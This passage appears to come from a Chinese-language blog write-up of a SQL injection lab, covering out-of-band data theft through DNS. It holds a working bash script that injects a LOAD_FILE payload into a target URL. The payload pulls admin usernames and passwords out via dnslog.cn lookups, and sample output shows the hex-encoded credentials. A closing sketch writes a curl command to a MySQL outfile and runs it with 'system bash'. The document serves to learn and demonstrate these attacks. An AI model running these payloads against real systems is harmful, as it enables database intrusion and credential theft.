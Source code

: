 > 不知不觉就开始开始拖库咯。 研究 **布尔盲注** 的时候，把语句都撸了一遍。 
>> [查询 MYSQL 数据库 系统库名、表名、字段名 SQL语句](https://tangx.in/2020/12/09/select-dbms-schema-table-column-names/)


### 0x03 事情总归还是要一个结果

```bash
#!/bin/bash
#

for i in $(seq 0 33)
do
{
    # 生成 dnslog 域名
    md5sha=$(date | md5)
    SESSION="--cookie PHPSESSID=$md5sha"
    DOMAIN=$(curl -s ${SESSION} http://dnslog.cn/getdomain.php )
    DNSLOG=".${i}.${DOMAIN}"

    # 构造 SQL 语句
    SQL=" select hex(concat(username,'___',password)) from maoshe.admin limit ${i},1 "

    # 利用
    curl ${SESSION} -sL  "http://vulhub.example.com:8022/dns/?id=1 AND LOAD_FILE(CONCAT('//',( ${SQL}  ),'${DNSLOG}/1.txt')) " > /dev/null

    # DNSLOG 获取结果
    curl -sL ${SESSION}  http://dnslog.cn/getrecords.php  | jq '.[0][0]'
    
    sleep 1
}
done

# "61646d696e3132335f5f5f31323361646d696e.0.jcjikx.dnslog.cn"
# "746573745f5f5f74657374313233.1.w4n5xa.dnslog.cn"
# "666c61675f5f5f466c61472d626975626975.2.ugvzim.dnslog.cn"

```

## 0x04 Linux 的 MySQL 带外探究

因为在 **mysql 命令行** 能执行以下语句。

> select 1=1 ; system ls ;

因此想在 linux 下也测试 OOB 带外。

### 设想如下

```sql
select 'curl http://host:port/:dbname/:tablename/1,2,3,4' INTO OUTFILE '/var/lib/mysql-files/1.txt'
system bash /var/lib/mysql-files/1.txt
```
